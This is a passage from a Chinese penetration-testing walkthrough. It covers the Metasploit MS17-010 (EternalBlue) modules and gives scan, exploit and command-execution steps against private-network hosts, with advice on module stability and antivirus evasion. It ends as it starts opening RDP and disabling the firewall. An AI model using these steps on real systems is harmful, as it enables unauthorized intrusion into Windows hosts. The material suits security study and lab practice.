 ![图片](https://shs3.b.qianxin.com/butian_public/f5535c1c738027ddb491c7a5ec99e9307.jpg)

这次能够成功建立连接

![图片](https://shs3.b.qianxin.com/butian_public/f40bc41b06ff60b8e9e51d6bc9159e86b.jpg)

**ms\_17\_010模块总结**

**漏洞检测方法：**

设置一下目标ip和线程即可，这里因为已经扫出存在漏洞的机器了，所以就没有进行漏洞检测。

- 

```php
use auxiliary/scanner/smb/smb_ms17_010
```

**漏洞利用常使用的是：**

这里的第一个和第三个模块需要目标开启命名管道，并且比较稳定。第二个模块只要存在漏洞即可，但是会有概率把目标打蓝屏，而且杀软拦截也会比较严格，如果有杀软就基本可以放弃这个模块了。

- 
- 
- 

```php
auxiliary/admin/smb/ms17_010_commandexploit/windows/smb/ms17_010_eternalblueexploit/windows/smb/ms17_010_psexec
```

在打ms17010的时候，不妨使用`auxiliary/admin/smb/ms17_010_command`模块探测一下是否可以使用命名管道。

- 
- 
- 
- 
- 

```php
use auxiliary/admin/smb/ms17_010_commandset rhosts 192.168.164.156 192.168.164.161set command tasklistshow optionsrun
```

如果命令执行成功的话就可以优先考虑这两个模块进行利用

- 
- 

```php
auxiliary/admin/smb/ms17_010_commandexploit/windows/smb/ms17_010_psexec
```

**WMI获取域控服务器**

因为之前用了两个`ms_17_010`的模块都没有打成功，而session放在后台是后面才想到的打法，在当时模块没有打成功的情况下我决定另辟蹊径

首先我打开3389端口并关闭防火墙进到win7的远程桌面

**注册表开启3389端口**

